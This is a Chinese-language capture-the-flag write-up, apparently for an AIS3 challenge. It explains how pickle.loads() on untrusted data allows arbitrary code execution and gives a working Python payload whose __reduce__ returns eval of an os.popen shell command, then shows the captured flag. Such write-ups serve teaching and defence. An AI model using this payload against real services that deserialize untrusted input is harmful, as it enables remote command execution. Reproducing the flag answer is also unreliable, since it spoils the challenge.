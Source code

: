 弄了好就才發現那個`if data and not data`根本只是來告訴你flag在哪裡而已=_=

其實這題的考點在於`pickle.loads()`這個函式有漏洞，如果放入一個設計過的class就可以執行任意python函式。像這樣：

```python
import pickle
import pickletools
from base64 import b64encode as b64
import subprocess

cmd = input('enter command\n$ ').strip('\n')
class Exploit():
    def __reduce__(self):
        
        command = ("__import__('os').popen('"+ cmd +"').read()")

        return (eval, (command, ))

pickled = pickle.dumps(Exploit())
print(b64(pickled))
```

讓`__reduce__`函式傳回一個tuple，內包含要執行的函式加上一個tuple，執行`pickle.loads()`時就會把tuple裡的東西當作參數給你的函式執行。

這裡弄那麼麻煩是因為原題目沒有`import os`，總之那個字串丟給`eval`執行之後就會用shell執行你要的指令，然後把結果傳回stdout。比如要看到flag是什麼，只要給他個`cat /flag`就有了：

```
AIS3{7h3_5n4k3_w1ll_4lw4y5_b173_b4ck.}
```

